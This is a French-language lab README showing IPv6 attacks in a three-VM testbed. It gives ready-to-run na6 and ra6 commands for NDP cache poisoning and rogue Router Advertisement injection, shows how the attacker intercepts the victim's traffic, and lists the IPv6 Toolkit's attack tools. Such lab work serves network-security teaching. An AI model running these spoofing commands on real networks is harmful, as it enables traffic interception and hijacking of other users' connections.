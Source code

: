 # Découverte de quelques vulnérablité d'IPv6

[[_TOC_]]

## Tableau d'addressage

| Name     | IP            | MAC               | Description |
|----------|:-------------:|:-----------------:|-------------|
| VM1      | 192.168.33.1  | 00:50:00:00:01:00 |Gateway      |
| VM2      | 192.168.33.10 | 00:50:00:00:04:00 |Victime      |
| Attacker | 192.168.33.11 | 00:50:00:00:05:00 |Attaquant    |

## Corruption de la table NDP

### Outil à utiliser
```
na6
```

### Commande
```
na6 -i ens3 -s 2001:db8:1:0:250:ff:fe00:100 -S 00:50:00:00:01:00 -d 2001:db8:1:0:250:ff:fe00:400 -t 2001:db8:1:0:250:ff:fe00:100 -E 00:50:00:00:05:00 -l
```

Arguments :
- **-s** : IPv6 Source Address
- **-S** : Link-layer Destination Address
- **-d** : IPv6 Destination Address
- **-t** : ND IPv6 Target Address
- **-E** : Source link-layer address option

### Résultats

![NDP Poisoning](./images/ndp_poisoning.gif)

On constate donc que :
- `vm2` ping `vm1` (sa Gateway)
- `attacker` lance la commande na6 malicieuse
- `attacker` récupère ainsi les pings émis par `vm2` (on peut le vérifier à l'aide de la commande *tcpdump*)

## Introduction de rogues RA sur un réseau IPv6

### Outil à utiliser
```
ra6
```

### Commande
```
ra6 -i ens3 -d  2001:db8:1:: -P 2001:db8:2:0::/64#LA -L -e
```

Arguments :
- **-i** : Network interface
- **-d** : IPv6 Destination Address (or IPv6 prefix when flooding)
- **-P** : Prefix option (Prefix/Len#flags#valid#preferred)
- **-L** : Listen to Router Solicitation messages
- **-e** : Add Source link-layer address option

### Résultats
![Rogue RA](./images/ipv6_rogue_router.gif)

On constate donc que :
- `vm1` est un routeur (on vérifie son fichier `/etc/radvd.conf`)
- `vm2` récupère donc sa configuration réseau depuis vm1
- `attacker` lance la commande ra6 malicieuse pour s'annoncer en tant que routeur
- Après down et up de l'interface `ens3` de `vm2`, on constate bien que `vm2` a récupéré sa config réseau depuis `attacker`

## Les Outils présents dans la suite IPv6ToolKit

```bash
addr6: An IPv6 address analysis and manipulation tool.  
blackhole6: A troubleshooting tool which can find IPv6 where in the network topology packets with specific IPv6 Extension Headers are being dropped.  
flow6: A tool to perform a security asseessment of the IPv6 Flow Label.  
frag6: A tool to perform IPv6 fragmentation-based attacks and to perform a security assessment of a number of fragmentation-related aspects.  
icmp6: A tool to perform attacks based on ICMPv6 error messages.  
jumbo6: A tool to assess potential flaws in the handling of IPv6 Jumbograms.  
na6: A tool to send arbitrary Neighbor Advertisement messages.  
ni6: A tool to send arbitrary ICMPv6 Node Information messages, and assess possible flaws in the processing of such packets.  
ns6: A tool to send arbitrary Neighbor Solicitation messages.  
path6: A versatile IPv6-based traceroute tool (which supports extension headers, IPv6 fragmentation, and other features not present in existing traceroute implementations).  
ra6: A tool to send arbitrary Router Advertisement messages.  
rd6: A tool to send arbitrary ICMPv6 Redirect messages.  
rs6: A tool to send arbitrary Router Solicitation messages.  
scan6: An IPv6 address scanning tool.  
script6: A set of scripts/commands that make rather complex and frequent tasks easy.  
tcp6: A tool to send arbitrary TCP segments and perform a variety of TCP-based attacks.  
udp6: A tool for sending arbitrary IPv6-based UDP datagrams.  
```
